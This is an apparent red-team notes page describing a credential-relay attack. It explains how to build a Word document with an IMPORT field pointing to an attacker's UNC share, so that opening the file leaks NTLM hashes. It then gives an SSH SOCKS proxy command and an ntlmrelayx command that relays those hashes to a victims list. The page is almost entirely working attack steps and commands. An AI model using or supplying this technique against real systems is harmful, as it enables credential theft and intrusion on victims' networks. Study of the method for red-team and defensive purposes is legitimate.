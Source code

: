 # Method: Malicious Word Document
Create word document
```
# Open new word document
# Press 'CTRL + F9' to create empty field (special braces in word)
# Insert following code into the braces
IMPORT \\\\x.x.x.x\\anything\\sweetawesome.jpg
# Righ click and select 'Edit Field', select Data not stored with document
# Save document
```

Optional Step: Deploy Socks Proxy (if required to reach targets)
```
ssh -D 9050 root@x.x.x.x -N
```

Run ntlmrelayx to relay hashes (remove proxychains if not needed)
```
proxychains ntlmrelayx.py -tf victims.txt -smb2support --no-http-server
```

Research notes: Dive deeper into word fields. Appears the are other options such as INCLUDEPICTURE and INCLUDETEXT
